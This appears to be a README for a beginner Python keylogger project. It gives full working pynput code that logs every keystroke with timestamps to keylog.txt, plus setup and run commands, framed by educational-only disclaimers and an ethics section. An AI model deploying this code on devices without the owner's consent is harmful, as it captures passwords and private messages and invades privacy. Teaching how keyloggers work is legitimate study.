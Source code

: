 # Python Keylogger Project

This project demonstrates how to create a simple keylogger in Python. It uses the `pynput` library to listen to keystrokes and log them into a text file. **This project is intended for educational purposes only. Use this code responsibly and only on devices you have permission to monitor.**

## Table of Contents
1. [Project Overview](#project-overview)
2. [Features](#features)
3. [Requirements](#requirements)
4. [Setup Instructions](#setup-instructions)
5. [Code Explanation](#code-explanation)
6. [Running the Keylogger](#running-the-keylogger)
7. [Ethics and Legal Considerations](#ethics-and-legal-considerations)
8. [Troubleshooting](#troubleshooting)
9. [Future Enhancements](#future-enhancements)

---

## Project Overview

A keylogger is a tool that records keystrokes on a computer and saves them to a file. This basic keylogger:
- Listens for keyboard events.
- Logs each keystroke with a timestamp.
- Saves the keystroke log to a text file named `keylog.txt`.

## Features

- Records each key pressed along with a timestamp.
- Stores keystroke data in a text file.
- Simple and concise Python code using the `pynput` library.

## Requirements

- **Python** 3.6 or newer.
- **pynput** library, used to monitor keyboard events.

## Setup Instructions

Follow these steps to set up the keylogger project on your local machine.

### Step 1: Create a Project Folder
Create a folder for this project. For example, you can name it `Keylogger`.

### Step 2: Set Up a Virtual Environment
Navigate to your project folder and set up a virtual environment:
```bash
python -m venv venv
```
Activate the virtual environment:
- On **Windows**:
  ```bash
  .\venv\Scripts\activate
  ```
- On **macOS/Linux**:
  ```bash
  source venv/bin/activate
  ```

### Step 3: Install the `pynput` Library
With your virtual environment active, install `pynput`:
```bash
pip install pynput
```

### Step 4: Add the Keylogger Code
Create a file named `keylogger.py` in your project folder and add the following code:

```python
from pynput.keyboard import Listener
import logging

# Configure logging to store keystrokes in a file
logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format="%(asctime)s: %(message)s")

def on_press(key):
    try:
        # Log each key pressed
        logging.info(str(key))
    except Exception as e:
        print(f"Error: {e}")

# Start the listener
with Listener(on_press=on_press) as listener:
    listener.join()
```

## Code Explanation

- **Importing Modules**: The `pynput` module listens to keyboard events, while the `logging` module saves these events to a file.
- **Logging Configuration**: We use `logging.basicConfig()` to set up our log file, `keylog.txt`, where each keystroke is logged with a timestamp.
- **on_press Function**: This function is triggered every time a key is pressed. It logs each key press in the specified format.
- **Starting the Listener**: The `Listener` instance listens for keystrokes, and `listener.join()` keeps it running indefinitely.

## Running the Keylogger

To start logging keystrokes, make sure your virtual environment is active, and then run the keylogger script:
```bash
python keylogger.py
```

The keystrokes will be saved in `keylog.txt`. To stop the program, press `Ctrl+C` in the terminal.

## Ethics and Legal Considerations

This code is provided for educational purposes only. **Using keyloggers on devices without permission is illegal** and may violate privacy and cybersecurity laws. Only use this code on devices you own or have explicit permission to monitor. Violating privacy laws could result in serious legal consequences.

## Troubleshooting

### Issue: `PermissionError` in Windows when Activating Virtual Environment
You might see an error about execution policies when activating your virtual environment in PowerShell.

1. Open PowerShell as Administrator.
2. Temporarily set the execution policy to allow scripts:
   ```powershell
   Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
   ```

### Issue: `ModuleNotFoundError` for `pynput`
Make sure your virtual environment is active and `pynput` is installed:
```bash
pip install pynput
```

  
## Conclusion

This project demonstrates a simple way to capture and log keystrokes using Python. Always use this code responsibly, respecting privacy and legal guidelines.

Happy coding! 😊


